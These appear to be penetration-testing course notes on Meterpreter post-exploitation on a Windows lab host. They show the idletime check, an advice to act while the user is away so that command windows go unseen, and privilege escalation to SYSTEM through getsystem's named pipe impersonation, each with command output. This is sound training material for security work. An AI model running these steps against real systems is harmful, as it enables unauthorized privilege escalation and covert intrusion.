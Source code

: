 Once the Windows binary is executed, Metasploit notifies us that it opened a new session
+ Now that we have an active Meterpreter session on a Windows target we can start exploring post-exploitation commands and features
+ The first post-exploitation command we use is **`idletime`**
+ It displays the time for which a user has been idle
+ After obtaining basic information about the current user and operating system, this should be one of our first commands as it indicates if the target machine is currently in use or not:
```
meterpreter > idletime
User has been idle for: 9 mins 53 secs
```

The output states that the user hasn't been interacting with the system for 9 minutes and 53 seconds, suggesting the user may have stepped away from their computer
+ If the result of the idletime command indicates that the user is away, we can take this as an opportunity to execute programs or commands which may display a command-line window such as CMD or PowerShell for a brief moment

For several post-exploitation features, we need administrative privileges to execute them
+ Metasploit contains the command _getsystem_, which attempts to automatically elevate our permissions to _NT AUTHORITY\SYSTEM_
+ It uses various techniques using named pipe impersonation and token duplication
+ In the default settings, _getsystem_ uses all available techniques (shown in the help menu) attempting to leverage _SeImpersonatePrivilege_ and _SeDebugPrivilege_

Before we execute _getsystem_, let's start an interactive shell and confirm that our user has one of those two privileges assigned:
```
meterpreter > shell
...

C:\Users\luiza> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
...
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
...

C:\Users\luiza> exit
exit
```
+ Above shows that the user _luiza_ has _SeImpersonatePrivilege_ assigned
+ Now, let's use **getsystem** to attempt to elevate our privileges
```
meterpreter > getuid
Server username: ITWK01\luiza

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
+ Above shows that `getsystem` successfully elevated our privileges to NT AUTHORITY\SYSTEM by using _Named Pipe Impersonation (PrintSpooler variant)_ as we did manually in the _Windows Privilege Escalation_ Module
